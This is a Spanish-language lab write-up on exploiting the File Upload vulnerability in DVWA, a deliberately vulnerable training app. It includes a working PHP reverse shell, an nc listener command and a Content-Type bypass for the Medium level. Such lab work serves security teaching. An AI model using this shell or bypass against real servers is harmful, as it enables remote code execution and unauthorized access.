


# File Upload - DVWA

## Nivel de seguridad: Low

Se permite la subida de archivos sin restricciones adecuadas, lo que permite cargar archivos maliciosos como una **reverse shell** en PHP.



Creamos un archivo `rev.php` con el siguiente código:

```php
<?php
$ip = '127.0.0.1';
$port = 9001;
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh -i', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>
```

**Pasos realizados:**
1. Se carga el archivo `rev.php` mediante el formulario de subida.
2. Escuchamos la conexión entrante en nuestra máquina usando:

```bash
nc -lvnp 9001
```

3. Accedemos a la URL del archivo subido:

```url
http://127.0.0.1/DVWA/hackable/uploads/rev.php
```

4. Se consigue una shell reversa como el usuario `www-data`.



### Resultado

Se obtiene acceso remoto al sistema vulnerable.

---

## Nivel de seguridad: Medium

**Nota:** No se realizó la prueba en nivel **Medium** debido a que el comportamiento esperado no se encontraba disponible.

Según la guía, en este nivel se bloquean los archivos `.php`, pero se puede intentar evadirlo cambiando el `Content-Type` a `image/png` usando el navegador:

- Ir a **Inspeccionar elemento** > **Pestaña Network**.
- Volver a enviar el formulario para capturar la petición.
- Seleccionar la petición, hacer **click derecho** > **Editar y reenviar**.
- Modificar el `Content-Type` antes de reenviar.

---

> **Nota:** La falta de validación estricta del tipo de archivo o la extensión permite ejecutar código remoto en el servidor, lo cual es extremadamente peligroso.